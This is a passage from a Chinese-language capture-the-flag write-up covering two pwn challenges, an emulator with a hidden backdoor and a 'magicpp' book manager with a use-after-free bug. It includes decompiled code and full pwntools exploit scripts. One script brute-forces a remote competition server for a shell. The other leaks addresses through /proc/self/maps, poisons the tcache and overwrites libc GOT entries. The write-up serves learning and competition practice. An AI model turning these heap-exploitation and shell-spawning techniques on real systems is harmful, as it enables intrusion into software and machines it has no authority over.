  a1->chunk_1000_ptr_page_table_addr_array[0] = malloc(0x1000uLL);
  a1->chunk_200000_ptr = malloc(0x200000uLL);
  a1->chunk_200_ptr = malloc(0x200uLL);
  memset((void *)a1->chunk_200_ptr, 0, 0x200uLL);
  return puts("emulator init");
}

unsigned __int64 __fastcall run_emulator(struct emulator *emula)
{
  int i; // [rsp+20h] [rbp-40h]
  struct struct1 now_ptr; // [rsp+24h] [rbp-3Ch] BYREF
  unsigned __int64 len; // [rsp+30h] [rbp-30h] BYREF
  __int64 now; // [rsp+38h] [rbp-28h] BYREF
  unsigned __int64 random_offset; // [rsp+40h] [rbp-20h]
  void *page_elememnt_0; // [rsp+48h] [rbp-18h]
  __int64 now_1; // [rsp+50h] [rbp-10h] BYREF
  unsigned __int64 v9; // [rsp+58h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  puts("A modern architecture emulator, maybe not standard");
  *(_DWORD *)&now_ptr.len[4] = 0;
  len = 0LL;
  now = std::chrono::_V2::system_clock::now((std::chrono::_V2::system_clock *)"A modern architecture emulator, maybe not standard");
  now_1 = sub_402A78(&now);
  *(_QWORD *)&now_ptr.time = (unsigned int)sub_4029BC(&now_1);
  sub_402A8E(&now, (unsigned int)now_ptr.time);
  sub_402AB8((__int64)&now_1, 0, 500u);
  __isoc99_scanf("%d", now_ptr.len);
  getchar();
  if ( *(_QWORD *)now_ptr.len > 0x1000uLL )
    _Exit(1);
  __isoc99_scanf("%d", &len);
  getchar();
  if ( len > 3 )
    _Exit(1);
  random_offset = (int)sub_402AE6(&now_1, &now);
  random_offset = find_arg2_len_pos_and_fill_1_return_offset(emula, len + 1, random_offset);
  set_page_table_element(emula, 1uLL, 0, 1LL, random_offset);
  set_page_table_element(emula, len, 0, 6LL, random_offset + 1);
  page_elememnt_0 = (void *)page_convert(emula, 0LL, 0, 1LL);
  read(0, page_elememnt_0, *(size_t *)now_ptr.len);
  __isoc99_scanf("%d", now_ptr.len);
  getchar();
  if ( *(_QWORD *)now_ptr.len > 0x1000uLL )
    _Exit(1);
  __isoc99_scanf("%d", &len);
  getchar();
  if ( len > 3 )
    _Exit(1);
  random_offset = (int)sub_402AE6(&now_1, &now);
  random_offset = find_arg2_len_pos_and_fill_1_return_offset(emula, len + 1, random_offset);// 找到可以的random_offset
  set_page_table_element(emula, 1uLL, 1u, 1LL, random_offset);
  set_page_table_element(emula, len, 1u, 6LL, random_offset + 1);
  page_elememnt_0 = (void *)page_convert(emula, 0LL, 1u, 1LL);
  read(0, page_elememnt_0, *(size_t *)now_ptr.len);
  for ( i = 0; (unsigned __int64)i < *(_QWORD *)now_ptr.len >> 2; ++i )
  {
    if ( *((_DWORD *)page_elememnt_0 + i) != 0x13 )
      _Exit(1);
  }
  process_code_memory(emula, 0);
  process_code_memory(emula, 1u);
  clean_chunk_1000_ptr_page_table_addr_content(emula, 0);
  clean_chunk_1000_ptr_page_table_addr_content(emula, 1u);
  return v9 - __readfsqword(0x28u);
}
```

## 漏洞
存在后门

创建了两个一级页表，每个页表只有 1 个页表项，并且可以向页表项对应的内存写入输入

必须先执行完第一个页表，才能触发后门。有 /bin/sh 的地址，未开启 PIE，且可以通过越界修改寄存器，将其改为后门所用的参数

第二个页表的页表项输入受到限制，必须全部为 19；但可以利用通过第一个页表项输入的指令，修改第二个页表项对应的物理地址（宿主机虚拟地址）处的内容

由于页表项对应物理地址的第 12 至第 21 位随机生成，需要向该物理地址的每一页都写入后门指令，才能同时修改第二个页表项对应物理地址处的指令

2^9 < 0x1000/4（可写入的指令数量）。发现还有一些其他的，不够用（可能是我优化不到位）

本地能通，远程却一直失败。缩短 payload、增加爆破次数后可以成功，否则本来有机会拿三血。可惜最后还是晚了一点，~~拿了四血~~
## 利用脚本

```python
from pwn import *
  
def pwn():
    p=remote("8.147.129.22",40300)
    #p=process("./evm")
    #   case 16:
    #             dest = ((unsigned __int16)code >> 7) & 0x1F;
    #             src_1 = (code >> 15) & 0x1F;
    #             v8 = HIWORD(code) >> 4;
    #             result = (BYTE1(code) >> 4) & 7;
    #             switch ( (BYTE1(code) >> 4) & 7 )   // 寄存器和立即数操作的结果给寄存器
    #             {
    #               case 0:
    #                 result = (__int64)emula;
    #                 emula->reg[dest] = emula->reg[src_1] + v8;
    #                 break;
    #                case 1:
                    # result = (__int64)emula;
                    # emula->reg[dest] = emula->reg[src_1] << (v8 & 0x3F);
                    # break;
    #  reg0=0
    #  reg0=reg0+1
    #  reg2=reg0<<12
    # reg2=reg2+0xff0

    # case 44:                              // 寄存器赋值给寄存器作为偏移的物理地址
    #             v16 = emula->reg[(code >> 15) & 0x1F] + (((unsigned __int16)code >> 7) & 0x1F) + 32 * (HIBYTE(code) >> 1);
    #             v18 = emula->reg[(HIWORD(code) >> 4) & 0x1F];
    #             v21 = (_QWORD *)(emula->chunk_200000_ptr + v16);
    #             if ( v16 > 0x1FFFFF )
    #               _Exit(1);
    #             result = (BYTE1(code) >> 4) & 7;
    #             if ( (_DWORD)result == 3 )
    #             {
    #               result = emula->chunk_200000_ptr + v16;
    #               *v21 = v18;
    #             }
    #
    # reg1=0 
    # reg1=reg1+0x73

    # v16=reg0

    # *(_QWORD *)(reg0+chunk_200000_ptr)=reg1
    init_reg1=p32(19|(0x73<<20)|1<<7|1<<15 )+p32(19|(0x50<<20)|0<<7|0<<15 ) 
    cover_payload=p32(19|(1<<20))+p32(19|(1<<12|2<<7|12<<20))
    cover_payload=cover_payload+p32(19|2<<7|2<<15|0xff0<<20)+p32(47|3<<12|2<<15|1<<20)
    cover_payload_all=b""
    for i in range(0x40):
        cover_payload_all=cover_payload_all+cover_payload
    execve_num=59
    bin_sh=0x00000000004050

    # case 0:
    #                 result = (__int64)emula;
    #                 emula->reg[dest] = emula->reg[src_1] + v8;
    #                 break;
    #  case 1:
    #                 result = (__int64)emula;
    #                 emula->reg[dest] = emula->reg[src_1] << (v8 & 0x3F);
    #                 break;
        # case 7:
        #             result = (__int64)emula;
        #             emula->reg[dest] = v8 & emula->reg[src_1];
        #             break;

    # reg[10]=0&reg[10]
    # reg[11]=0&reg[11]
    # reg[10]=reg[10]+59
    # reg[11]=reg[11]+405
    # reg[11]=reg[11]<<12
    # reg[11]=reg[11]+0xa0
    
    construct_arg=p32(19|7<<12|10<<7|10<<15) + p32(19|7<<12|11<<7|11<<15)
    construct_arg=construct_arg+p32(19|10<<7|10<<15|59<<20)+p32(19|11<<7|11<<15|0x405<<20)
    construct_arg=construct_arg+p32(19|1<<12|11<<7|11<<15|12<<20)+p32(19|11<<7|11<<15|0xa0<<20)

    payload=init_reg1+cover_payload_all+construct_arg

    # gdb.attach(p)
    # pause()
    context(os="linux",arch="amd64",log_level="debug")
    p.sendlineafter(b"maybe not standard\n", str(len(payload)).encode())
    p.sendline(str(0))
    instruct=payload
    p.send(instruct)   
    p.sendline(str(4))
    p.sendline(str(0))
    instruct=p32(0x13)   # padding
    p.send(instruct)
    p.interactive()
    
    

while(1):
    pwn()

```


# magicpp

[乘法变成除法](https://blog.iret.xyz/posts/those-magic-compiler-optimization/)

~~逆不出来……和强网杯那道一样，全靠猜~~ 
~~我傻了，可以逆，是之前有心理阴影了……~~ 


可以加载文件，因此直接加载 /proc/self/maps 泄露地址；book 从 1 开始

可以通过 fuzz 找到。使用 Python fuzz 会出现 `malloc(): unsorted double linked list corrupted\`。先增加分支，如果发生崩溃，再缩减分支，直到无法继续缩减，排除对触发崩溃没有影响的操作，再改变 fuzz 的操作，直到追踪到具体原因

```c
if (__glibc_unlikely (bck->fd != victim)
              || __glibc_unlikely (victim->fd != unsorted_chunks (av)))
            malloc_printerr ("malloc(): unsorted double linked list corrupted");
```

```c
unsortedbin
all [corrupted]
FD: 0x5b1832653c40 ◂— 0x30 /* '0' */
BK: 0x5b1832653c40 —▸ 0x73fea921ace0 (main_arena+96) ◂— 0x5b1832653c40

```
最后发现，无论插入的 size 多大，只要数量超过 48，就会出现上述问题


发现不断向 vector 中 push 时，一旦超过容量，就会释放旧空间并分配更大的空间。如果释放的旧空间足够大，就会进入 unsortedbin，因此可以通过分配将其切分

发现 unsortedbin 中的 fd 被修改，应该存在释放后编辑。继续查看修改发生的时间，发现是在旧空间释放进入 unsortedbin 之后被修改的。

```c
    first_book = (_QWORD *)get_index_chunk(&vector, 0LL);
    value_sum = add_book_and_return_sum(&book);
    *first_book = value_sum;
```
这里 `add_book_and_return_sum` 可能释放旧空间，此时 first_book 已经进入 unsortedbin。
## 利用脚本
/proc/self/maps 可以泄露地址，这里又可以修改 fd，而且有 delete 能释放 context chunk，因此直接改 tcache fd 即可。由于写入 fd 的是 0x719f8a1d5040（_rtld_global）与其他 value 值的和，尝试打栈时发现，随机化改变的不只是栈基址，还有内部偏移。

应该可以打 IO 的 house of cat 或 exit，不过为了学点新东西，这里也可以打 libcgot。load 中会调用 libc 的 got 表里的函数。懒得把三种方法都写一遍

```python
from pwn import *
import random
context(os="linux",arch="amd64",log_level="debug")

def randinit(n):
    return random.randint(1, n)

def insert(value,book_name,book_size,book_context):
    p.sendlineafter(b"Enter your choice: ",str(1))
    p.sendlineafter(b"Enter the value: ",value )
    p.sendlineafter(b"Enter the book name: ",book_name)
    p.sendlineafter(b"Enter the context size: ",book_size)
    p.sendlineafter(b"Enter the context: ",book_context)

def delete(index):
    p.sendlineafter(b"Enter your choice: ",str(2))
    p.sendlineafter(b"Enter the index: ",index)

def sort():
    p.sendlineafter(b"Enter your choice: ",str(3))

def load(filename):
    p.sendlineafter(b"Enter your choice: ",str(4))
    p.sendlineafter(b"Enter the file name: ",filename)

def save(index):
    p.sendlineafter(b"Enter your choice: ",str(5))
    p.sendlineafter(b"Enter the book idx: ",index)
  

def show(index):
    p.sendlineafter(b"Enter your choice: ",str(6))
    p.sendlineafter(b"Enter the book idx: ",index)

def exit():
    p.sendlineafter(b"Enter your choice: ",str(7)) 


p=process("./pwn")
gdb.attach(p)
pause()
p.sendlineafter("Enter your name: ",b"llk")

load(b"/proc/self/maps")
show(str(1))

heappart=(p.recvuntil(b" rw-p 00000000 00:00 0                          [heap]",drop=True)).decode('utf-8')
libcpart=(p.recvuntil(b" r--p 00000000 08:03 1311935                    /home/llk/Desktop/pwn/2024_WMCTF/magicpp_e4a2bf175f5943f40cd83921b9b43853/libc.so.6",drop=True)).decode('utf-8')
ldpart=(p.recvuntil(b" r--p 00000000 08:03 788592                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2",drop=True)).decode('utf-8')
stackpart=(p.recvuntil(b" rw-p 00000000 00:00 0                          [stack]",drop=True)).decode('utf-8')

heap=int(heappart[-25:-13],16)
libc=int(libcpart[-25:-13],16)
stack=int(stackpart[-25:-13],16)
ld=int(ldpart[-25:-13],16)
print(f"Heap Address: {hex(heap)}")
print(f"Libc Address: {hex(libc)}")
print(f"Stack Address: {hex(stack)}")
print(f"ld Address: {hex(ld)}")


insert(str(0),str(1),str(0x3c0),str(1))
delete(str(2))
for i in range(21):
    insert(str(0),str(1),str(1),str(1))

payloa=(libc+0x000000000021A0A0)^((heap+0x11000)>>12) # dest
insert(str(payloa),str(1),str(1),str(1))
payload=-(0x3a040+ld)
print("+++++++++++++++++"+hex(payload))
insert(str(payload),str(1),str(1),str(1))

insert(str(1),str(1),str(0x3c0),str(1))
pause()

payload=p64(0x19a144+libc)+p64(0xC5BF8+libc)+p64(0x1a2140+libc)+p64(0x148303+libc)+p64(0x199700+libc)+p64(0x28170+libc)+p64(0x28180+libc)+p64(0x80520+libc)
insert(str(1),str(1),str(0x3c0),payload) # write to dest

# .text:000000000013B748                 mov     rsi, [rsp+30h]
# .text:000000000013B74D                 mov     rdi, [rsp+18h]
# .text:000000000013B752                 call    j_strcpy

# .text:0000000000147F26                 mov     rdi, [rsp+8]
# .text:0000000000147F2B                 mov     rsi, r12
# .text:0000000000147F2E                 call    j_strcpy


# .text:0000000000148303                 mov     rsi, [rsp+20h]
# .text:0000000000148308                 mov     rdi, [rsp+8]
# .text:000000000014830D                 call    j_strcpy

# .text:0000000000153D61                 mov     rdi, [rsp+18h]
# .text:0000000000153D66                 mov     rsi, rbp
# .text:0000000000153D69                 call    j_strcpy

# .text:00000000000C5BF8                 pop     rbx
# .text:00000000000C5BF9                 pop     rbp
# .text:00000000000C5BFA                 pop     r12
# .text:00000000000C5BFC                 pop     r13
# .text:00000000000C5BFE                 jmp     j_wmemset_0


# .got.plt:000000000021A0A8 off_21A0A8      dq offset strcpy        ; DATA XREF: j_strcpy+4↑r
# .got.plt:000000000021A0A8                                         ; Indirect relocation
# .got.plt:000000000021A0B0 off_21A0B0      dq offset wcschr        ; DATA XREF: j_wcschr+4↑r
# .got.plt:000000000021A0B0                                         ; Indirect relocation
# .got.plt:000000000021A0B8 off_21A0B8      dq offset strchrnul     ; DATA XREF: j_strchrnul+4↑r
# .got.plt:000000000021A0B8                                         ; Indirect relocation
# .got.plt:000000000021A0C0 off_21A0C0      dq offset memrchr       ; DATA XREF: j_memrchr+4↑r
# .got.plt:000000000021A0C0                                         ; Indirect relocation
# .got.plt:000000000021A0C8 off_21A0C8      dq offset _dl_deallocate_tls
# .got.plt:000000000021A0C8                                         ; DATA XREF: __dl_deallocate_tls+4↑r
# .got.plt:000000000021A0D0 off_21A0D0      dq offset __tls_get_addr
# .got.plt:000000000021A0D0                                         ; DATA XREF: ___tls_get_addr+4↑r
# .got.plt:000000000021A0D8 off_21A0D8      dq offset wmemset     
p.interactive()
# file=open('fuzz.txt', 'w') 
# p=process("./pwn")
# gdb.attach(p)
# pause()
# p.sendlineafter("Enter your name: ",b"llk")
# for i in range(0x1000):
#     match randinit(1):
#         case 1:
#             size=randinit(0x1000)
#             insert(b"1",b"1",str(1),b"1")
#             file.write("insert size"+str(1)+"\n")
#             file.flush()
#         case 2:
#             index=randinit(0x100)
#             delete(str(index))
#             file.write("delete index "+str(index)+"\n")
#             file.flush()
#         case 3:
#             sort()
#             file.write("sort \n")
#             file.flush()


```

